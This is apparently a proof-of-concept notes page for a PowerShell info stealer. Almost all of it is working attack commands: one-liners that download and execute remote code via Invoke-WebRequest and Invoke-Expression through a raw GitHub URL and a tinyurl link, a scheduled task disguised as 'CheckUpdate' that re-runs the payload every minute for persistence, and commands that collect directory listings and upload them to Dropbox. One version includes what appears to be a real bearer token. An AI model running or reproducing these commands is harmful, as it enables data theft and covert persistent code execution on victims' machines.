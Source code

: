 # Info Stealing via PowerShell command

## ByPass PowerShell restriction

Using "run" application to run powershell command inline:

    - powershell Write-Host "Test"; Start-Sleep -Seconds 1
    - powershell $rawcmd = Invoke-webrequest -URI https://raw.githubusercontent.com/roccosicilia/my-papers/main/poc-c2/infosteal-ps/cmd-demo.txt; Invoke-Expression $rawcmd;
    - powershell $rawcmd = Invoke-webrequest -URI https://tinyurl.com/3v7pdjj9; Invoke-Expression $rawcmd;
    - powershell $rawcmd = Invoke-webrequest -URI https://tinyurl.com/3v7pdjj9 -UseBasicParsing; Invoke-Expression $rawcmd;

## Set a Scheduled Task

$a = New-ScheduledTaskAction -Execute 'powershell' -Argument '$rawcmd = Invoke-webrequest -URI {PASTEBIN} -UseBasicParsing; Invoke-Expression $rawcmd;'
$t = New-ScheduledTaskTrigger -Once -At (Get-Date) -RepetitionInterval (New-TimeSpan -Minutes 1)
Register-ScheduledTask -Action $a -Trigger $t -TaskPath "CheckUpdate" -TaskName "CheckUpdate" -Description "Check for new software update."

## Command Example in PasteBin

 - directory listing in output file

& dir c:\Users\Public > c:\Users\Public\out.txt; 
& dir $HOME\Desktop > c:\Users\Public\out.txt;

 - send output to DropBox

$destFile = "/$(get-date -f yyyyMMddHHmm)_outfile.txt"; $rargs = '{ "path": "' + $destFile + '", "mode": "add", "autorename": true, "mute": false }'; $auth = "Bearer sl.BeAsjRFNn8U3eFHQAsq8OVKks5ISflHUPEOd6SPmGaDqWhhIw_GTwQ55aBPk5MKYmK5uPJtyzya3phr2YGCMx4kftQTMbgCTLnLILfpg39G3BVPYNppRSP7pne8kjwKfLP9dj4aPxL93"; $headers = New-Object "System.Collections.Generic.Dictionary[[String],[String]]"; $headers.Add("Authorization", $auth); $headers.Add("Dropbox-API-Arg", $rargs); $headers.Add("Content-Type", 'application/octet-stream'); Invoke-RestMethod -Uri https://content.dropboxapi.com/2/files/upload -Method Post -InFile "c:\Users\Public\out.txt" -Headers $headers

$destFile = "/$(get-date -f yyyyMMddHHmm)_outfile.txt"; $rargs = '{ "path": "' + $destFile + '", "mode": "add", "autorename": true, "mute": false }'; $auth = "Bearer **TOKEN**"; $headers = New-Object "System.Collections.Generic.Dictionary[[String],[String]]"; $headers.Add("Authorization", $auth); $headers.Add("Dropbox-API-Arg", $rargs); $headers.Add("Content-Type", 'application/octet-stream'); Invoke-RestMethod -Uri https://content.dropboxapi.com/2/files/upload -Method Post -InFile "**PATH TO FILE**" -Headers $headers


$destFile = "/$(get-date -f yyyyMMddHHmm)_outfile.txt";
$rargs = '{ "path": "' + $destFile + '", "mode": "add", "autorename": true, "mute": false }';
$auth = "Bearer **TOKEN**";
$headers = New-Object "System.Collections.Generic.Dictionary[[String],[String]]"; $headers.Add("Authorization", $auth); $headers.Add("Dropbox-API-Arg", $rargs); $headers.Add("Content-Type", 'application/octet-stream');

Invoke-RestMethod -Uri https://content.dropboxapi.com/2/files/upload -Method Post -InFile "c:\Users\Public\out.txt" -Headers $headers

